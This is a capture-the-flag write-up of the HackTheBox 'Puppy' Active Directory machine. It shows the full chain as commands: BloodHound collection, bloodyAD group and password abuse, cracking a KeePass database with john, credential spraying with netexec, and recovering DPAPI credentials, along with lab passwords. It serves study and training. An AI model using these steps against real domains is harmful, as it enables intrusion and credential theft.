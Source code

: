 ```yaml
---
title: HackTheBox | Puppy | Medium
published: 2025-09-30
description: "In this write-up, I explain how I gained ownership of Puppy on HackTheBox."
image: "./img/image.png"
tags: [CTF, HTB, write-up, Season8]
category: 'CTF'
draft: false
---
```

## Summary

This was an Active Directory (AD) machine. I began with an Nmap scan, enumerated LDAP and SMB, collected BloodHound data, abused AD write privileges to gain access to a restricted SMB share, recovered a KeePass database, extracted credentials, used those to access a WinRM session, and finally extracted additional credentials from DPAPI blobs to escalate to the administrator account.
## Recon — Nmap

I always start with an Nmap scan. Results :

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-28 21:20:34Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3260/tcp open  iscsi?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m01s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-09-28T21:22:28
|_  start_date: N/A
```

The scan shows this is a domain controller (LDAP, Kerberos, , SMB). I added an entry to my `/etc/hosts` :

```text
10.10.11.70    DC.PUPPY.HTB PUPPY.HTB DC
```
## Initial access & enumeration

The box provided some credentials that I could use for enumeration. I had access to SMB and LDAP. I used these to gather AD data:

![](Season%208%20-%20Puppy.png)

- Enumerated SMB shares.

![](Season%208%20-%20Puppy-1.png)

- Queried LDAP/BloodHound information (I used `rusthound-ce` to collect AD relationships for BloodHound).
### BloodHound collection

I collected BloodHound data with:

```bash
rusthound-ce --domain puppy.htb -u levi.james -p 'KingofAkron2025!'
```

Then I imported the output into BloodHound and looked for interesting relationships. BloodHound showed our user levi member of HR have a **GenericWrite** over `DEVELOPERS` group.

![](Season%208%20-%20Puppy-2.png)

**Note on GenericWrite:** GenericWrite allows modification of many non-protected attributes. For user objects that can include `servicePrincipalName` (enabling targeted Kerberoasting). For group objects it allows adding members. For computer objects it allows writing `msds-KeyCredentialLink` to create shadow credentials (PKINIT). [See BloodHound docs for more details.](https://bloodhound.specterops.io/resources/edges/generic-write)
## Abusing GenericWrite to gain share access

With the account we have (`levi.james`) and the BloodHound findings, I used `bloodyAD` to add `levi.james` to the `DEVELOPERS` group (the tool reported success):

```bash
bloodyAD --host 10.10.11.70 -d puppy.htb -u levi.james -p 'KingofAkron2025!' add groupMember "DEVELOPERS" levi.james
```

After being added to `DEVELOPERS`, I rechecked SMB and discovered access to a `DEV` share.

```bash
smbmap -u levi.james -p '...' -H 10.10.11.70
```

![](Season%208%20-%20Puppy-4.png)

Inside the `DEV` share there was a file `recovery.kdbx` (a KeePass database). I downloaded it for offline analysis.

![](Season%208%20-%20Puppy-5.png)
## KeePass database — cracking and extraction

The KeePass database was password protected. I converted the `.kdbx` file to a John-compatible hash and cracked it with `john` (bleeding-jumbo):

```bash
# generate the keepass hash for john
keepass2john recovery.kdbx > hashkdbx

# crack with john
john --wordlist=/usr/share/wordlists/rockyou.txt hashkdbx
```

After cracking, I exported the KeePass entries (or opened `recovery.kdbx` in KeePassXC) and enumerated stored credentials.

```sh
keepassxc-cli export -f csv recovery.kdbx
```

I collected a list of usernames found in the KeePass file and BloodHound enumeration:

```text
jamie.williams
adam.silver
ant.edwards
steph.cooper
steph.cooper_adm
```

I verified which credentials were valid against SMB using `netexec` :

```bash
netexec smb 10.10.11.70 -u users.txt -p pass.txt
# example output showed PUPPY.HTB\ant.edwards was valid
```

I obtained valid credentials for `ant.edwards`.
## Abusing GenericAll to reset password

BloodHound showed that `ant.edwards` had **GenericAll** over `adam.silver` (GenericAll is equivalent to full control over a target object, meaning you can reset passwords, modify attributes, etc.).

![](Season%208%20-%20Puppy-9.png)

I used `bloodyAD` to set a new password for `adam.silver`:

```bash
bloodyAD --host "10.10.11.70" -d "puppy.htb" -u "ant.edwards" -p '<ANT_PASSWORD>' set password "adam.silver" "Password@1"
```

The password change succeeded, but the account was disabled. 

![](Windows%20Cheat%20Sheet.png)

I used `bloodyAD` again to clear the `ACCOUNTDISABLE` flag on the `userAccountControl` attribute:

```bash
bloodyAD --host "10.10.11.70" -d "puppy.htb" -u "ant.edwards" -p '<ANT_PASSWORD>' remove uac "adam.silver" -f ACCOUNTDISABLE
```

After enabling the account, `adam.silver` check what we have access to.

![](Windows%20Cheat%20Sheet-1.png)

## Initial foothold — WinRM and user flag

Using the `adam.silver` credentials, I authenticated over WinRM and obtained the user flag. 

During enumeration of `C:\Users\adam.silver\`, I found a `Backups` folder containing `site-backup-2024-12-30.zip`.

![](Season%208%20-%20Puppy-10.png)

I downloaded the backup ZIP and inspected its contents locally. Inside the backup I found credentials for `steph.cooper`.

![](Season%208%20-%20Puppy-11.png)
## Privilege escalation — DPAPI credential recovery

With `steph.cooper` credentials and a WinRM session as that user, I ran local enumeration (WinPEAS). WinPEAS reported locations where Windows stores credential blobs and MasterKeys:

![](Season%208%20-%20Puppy-16.png)

```powershell
# Credential blob location
C:\Users\<user>\AppData\Local\Microsoft\Credentials\<blob>

# MasterKey location
C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<SID>\<MasterKey>
```

I confirmed the presence of both the credential blob(s) and the corresponding MasterKey for `steph.cooper` and transferred them to my attacking machine.

![](Season%208%20-%20Puppy-14.png)

Using Impacket's `dpapi` tools, I decrypted the blob and recovered `steph.cooper_adm` credentials.

![](Season%208%20-%20Puppy-15.png)
